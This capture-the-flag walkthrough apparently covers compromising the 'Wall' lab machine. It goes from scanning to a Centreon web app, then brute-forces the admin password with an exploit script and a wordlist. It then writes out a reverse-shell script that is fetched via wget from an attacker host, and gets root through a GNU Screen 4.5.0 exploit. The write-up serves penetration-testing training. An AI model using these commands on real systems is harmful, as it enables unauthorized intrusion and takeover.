


<center><h3>Summary</h3></center>

- Use <b>curl</b> to perform a <b>POST</b> request to reveal a hidden directory
- Bruteforce the login credentials using <b>bash</b> and a <b>python</b> script
- Use the web interface to execute commands on the System to gain a reverse shell
- Exploit <b>GNU Screen 4.5.0</b> to get a root shell
<br>

First start with an Nmap Scan

```
# Nmap 7.80 scan initiated Fri Sep 20 15:45:55 2019 as: nmap -sV -sC -p- 10.10.10.157
Nmap scan report for 10.10.10.157
Host is up (0.059s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 2e:93:41:04:23:ed:30:50:8d:0d:58:23:de:7f:2c:15 (RSA)
|   256 4f:d5:d3:29:40:52:9e:62:58:36:11:06:72:85:1b:df (ECDSA)
|_  256 21:64:d0:c0:ff:1a:b4:29:0b:49:e1:11:81:b6:73:66 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Sep 20 15:46:43 2019 -- 1 IP address (1 host up) scanned in 47.73 seconds
```
Only 2 ports open. Lets start with port 80. Navigating to <b>http://10.10.10.157</b> I are greeted with an apache default installation


Next I performed a <b>gobuster</b>. It only spit out a few results.
```
# gobuster dir -u http://10.10.10.157 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php -t 30
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.157
[+] Threads:        30
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php
[+] Timeout:        10s
===============================================================
2019/09/21 18:48:24 Starting gobuster
===============================================================
/aa.php (Status: 200)
/monitoring (Status: 401)
/panel.php (Status: 200)
/server-status (Status: 403)
```
Checking out each result yields not much that can help me. Only the <b>monitoring</b> seemed useful since it prompts us for a Username and Password to log in with. I tried guessing the credentials but had no luck so I moved on.


Next I did a basic <b>Nikto</b> scan to see what it would pick up. Nothing amazing was found but it did tell me which <b>HTTP Methods</b> are alloId

```
# nikto -h http://10.10.10.157
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.157
+ Target Hostname:    10.10.10.157
+ Target Port:        80
+ Start Time:         2019-09-21 18:52:22 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.4.29 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Server may leak inodes via ETags, header found with file /, inode: 2aa6, size: 58cb1080cb0d2, mtime: gzip
+ Apache/2.4.29 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ AlloId HTTP Methods: OPTIONS, HEAD, GET, POST
+ 7863 requests: 0 error(s) and 6 item(s) reported on remote host
+ End Time:           2019-09-21 19:00:56 (GMT-4) (514 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```
Using this info I used <b>curl</b> to send requests to each result from <b>gobuster</b>. Eventually I found something. Sending a <b>POST</b> request to <b>http://10.10.10.157/monitoring/</b> reveals another directory <b>/centreon</b>.
```
# curl -X POST http://10.10.10.157/monitoring/
<h1>This page is not ready yet !</h1>
<h2>I should redirect you to the required page !</h2>

<meta http-equiv="refresh" content="0; URL='/centreon'" />
```
Navigating to <b>http://10.10.10.157/centreon</b> I are greeted with a login page. It is running Centreon v19.04



Doing a quick google search will reveal a *[RCE exploit](https://www.exploit-db.com/exploits/47069)* for this version of <b>centreon</b>.


The problem with this exploit is that it requires user credentials to work so first I decided to combine a bash script with this python script to bruteforce the login credentials. I used <b>admin</b> as the username.

<b>Bash Script</b>
```
cat /usr/share/wordlists/rockyou.txt | while read line; do python3 47069.py http://10.10.10.157/centreon admin $line 10.10.14.21 10001;sleep 0.5; echo password=$line; done
```
After letting that run for a bit I see that it tells us the password is <b>password1</b>
```
[+] Login token is : 2616bdbc1dddb74f1cbe25dd638be366                                                        
[+] Logged In Sucssfully                                                                                     
[+] Retrieving Poller token                                                                                  
47069.py:56: UserWarning: No parser was explicitly specified, so I'm using the best available HTML parser for
 this system ("lxml"). This usually isn't a problem, but if you run this code on another system, or in a diff
erent virtual environment, it may use a different parser and behave differently.                             

The code that caused this warning is on line 56 of the file 47069.py. To get rid of this warning, pass the ad
ditional argument 'features="lxml"' to the BeautifulSoup constructor.                                        

  poller_soup = BeautifulSoup(poller_html)                                                                   
[+] Poller token is : 1362243211de62f028c5350e4782ddc4                                                       
[+] Injecting Done, triggering the payload                                                                   
[+] Check your netcat listener !                                                                             
password=password1
```
For some reason I couldn't get the RCE to work and open up a reverse shell for me so I had to find another way. I did this by logging into the <b>centreon</b> web app using the credentials I brute forced. I then navigated to <b>Configuration > Commands > Miscellaneous</b> where you will see this.



Now to get my reverse shell I was unable to just type a <b>nc</b> command into the box to connect back to me, I had to do an extra step. First I created a bash script file on my kali machine that contains the command for the reverse shell
```
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.21/10000 0>&1
```

I then used <b>wget</b> from the web console combined with a <b>python SimpleHTTPServer</b> to download the file onto the box. Hit the small blue button to execute the command.


If done correctly you should see the file get downloaded from the <b>python SimpleHTTPServer</b>
```
# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
10.10.10.157 - - [21/Sep/2019 20:07:41] "GET /shell.sh HTTP/1.1" 200 -
```

Now with the file on the system, I can see up our reverse listener
```
# nc -lvnp 10000
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::10000
Ncat: Listening on 0.0.0.0:10000
```
And to trigger the shell just go back to the web console and execute the command <b>bash shell.sh</b>.


If everything works you should see a shell spawn
```
# nc -lvnp 10000
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::10000
Ncat: Listening on 0.0.0.0:10000
Ncat: Connection from 10.10.10.157.
Ncat: Connection from 10.10.10.157:52120.
bash: cannot set terminal process group (982): Inappropriate ioctl for device
bash: no job control in this shell
www-data@Wall:/usr/local/centreon/www$
```

Now the <b>user.txt</b> file is stored in <b>/home/shelby/</b> but I dont have the permissions to read it. Doing some quick manual enumeration did result in me finding much so I decided to use the <b>LinEnum.sh</b> script. I copied the script over to the box using the same method as <b>shell.sh</b> but this time I executed <b>wget</b> from the command line inside the shell.

Reading through the output of the script, there is and <b>SUID</b> file that stands out.
```
-rwsr-xr-x 1 root root 1595624 Jul  4 00:25 /bin/screen-4.5.0
```
A quick google search will reveal *[this](https://www.exploit-db.com/exploits/41154)* exploit. I once again copied the exploit over to the box using the same method. I then run the exploit and instantly become the root user. I run a <b>whoami</b> to confirm this. From here you can just grab both the user and root flags
```
$ bash screenroot.sh
bash screenroot.sh
~ gnu/screenroot ~
[+] First, I create our shell and library...
[+] Now I create our /etc/ld.so.preload file...
[+] Triggering...
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /tmp/screens/S-www-data.

whoami
root
```

